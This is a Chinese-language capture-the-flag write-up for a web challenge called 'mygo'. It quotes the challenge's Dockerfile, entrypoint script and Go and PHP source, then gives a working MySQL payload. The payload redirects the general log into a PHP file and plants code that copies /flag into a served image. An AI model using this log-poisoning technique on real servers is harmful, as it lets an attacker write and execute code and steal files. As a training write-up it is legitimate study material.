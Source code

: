 ![[mygo_desc.png]]

Hint
---

![[mygo_hint_0.png]]

这个是说`Dockerfile`没删

![[mygo_hint_1.png]]

这个是说有Go的源码

![[mygo_hint_2.png]]

这个是说可以任意文件读

Solution
---

```
/Dockerfile
```

```docker
FROM mysql:debian
EXPOSE 8080
RUN apt-get update && apt-get install -y php
COPY . /app
WORKDIR /app
ENTRYPOINT [ "./docker-entrypoint.sh" ]
```

```
/docker-entrypoint.sh
```

```bash
#!/bin/sh
mysqld --initialize-insecure --datadir=/var/lib/mysql
mysqld --user=root &

while true; do
    mysql -e "show databases;" > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        break
    fi
    sleep 1
done
mysql -e "CREATE USER 'root'@'127.0.0.1' IDENTIFIED BY 'root'; GRANT ALL PRIVILEGES ON *.* TO 'root'@'127.0.0.1'; FLUSH PRIVILEGES;"
chown -R mysql:mysql /app
echo $FLAG > /flag
unset FLAG
./mygo
```

```
/main.go
```

```go
// ...

func generateRandomImage() error {
	cmd := exec.Command("php", "./rand_img.php")
	_, err := cmd.Output()
	return err
}

func getHandler(db *sql.DB) func(http.ResponseWriter, *http.Request) {
	return func(w http.ResponseWriter, r *http.Request) {
		if r.URL.Path != "/" {
			http.ServeFile(w, r, r.URL.Path[1:])
			return
		}
		generateRandomImage()
		data := ""
		if r.URL.Query().Get("go") != "" {
			result, err := query(r.URL.Query().Get("go"), db)
			if err != nil {
				data = err.Error()
			} else {
				data = result
			}

		}
		tmpl := template.Must(template.ParseFiles("index.html"))
		tmpl.Execute(w, data)
	}
}

func main() {
	// ...
	http.HandleFunc("/", getHandler(db))
	err = http.ListenAndServe(":8080", nil)
	if err != nil {
		log.Printf("[ERROR] Failed to listen and serve: %v\n", err)
		return
	}
}
```

```
/rand_img.php
```

```php
<?php
$files = glob('imgs/*.*');
$file = array_rand($files);
copy($files[$file], 'image.jpg');
?>
```

通过MySQL日志写入文件，借由`image.jpg`带出

```sql
set global general_log_file="/app/rand_img.php";
set global general_log = 'ON';
select "<?php file_put_contents('image.jpg', file_get_contents('/flag')); ?>"
```

![[mygo_solution.png]]
